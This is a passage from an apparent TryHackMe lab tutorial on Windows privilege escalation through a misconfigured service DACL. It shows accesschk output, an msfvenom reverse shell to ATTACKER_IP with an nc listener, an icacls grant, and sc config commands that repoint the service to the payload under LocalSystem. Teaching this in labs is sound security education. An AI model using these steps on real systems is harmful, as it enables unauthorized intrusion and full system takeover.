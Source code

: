 To check for a service DACL from the command line, you can use [Accesschk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) from the Sysinternals suite. For your convenience, a copy is available at `C:\\tools`. The command to check for the thmservice service DACL is:

```
C:\tools\AccessChk> accesschk64.exe -qlc thmservice
  [0] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SYSTEM
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_PAUSE_CONTINUE
        SERVICE_START
        SERVICE_STOP
        SERVICE_USER_DEFINED_CONTROL
        READ_CONTROL
  [4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users
        SERVICE_ALL_ACCESS
```

Here we can see that the `BUILTIN\\Users` group has the SERVICE_ALL_ACCESS permission, which means any user can reconfigure the service.

Before changing the service, let's build another exe-service reverse shell and start a listener for it on the attacker's machine:

```

Kali Linux

user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4447 -f exe-service -o rev-svc3.exe

user@attackerpc$ nc -lvp 4447

```

We will then transfer the reverse shell executable to the target machine and store it in `C:\Users\thm-unpriv\rev-svc3.exe`. Feel free to use wget to transfer your executable and move it to the desired location. Remember to grant permissions to Everyone to execute your payload:

```
C:\> icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F
```

To change the service's associated executable and account, we can use the following command (mind the spaces after the equal signs when using sc.exe):

```
C:\> sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem
```

Notice we can use any account to run the service. We chose LocalSystem as it is the highest privileged account available. To trigger our payload, all that rests is restarting the service:

```
C:\> sc stop THMService
C:\> sc start THMService
```
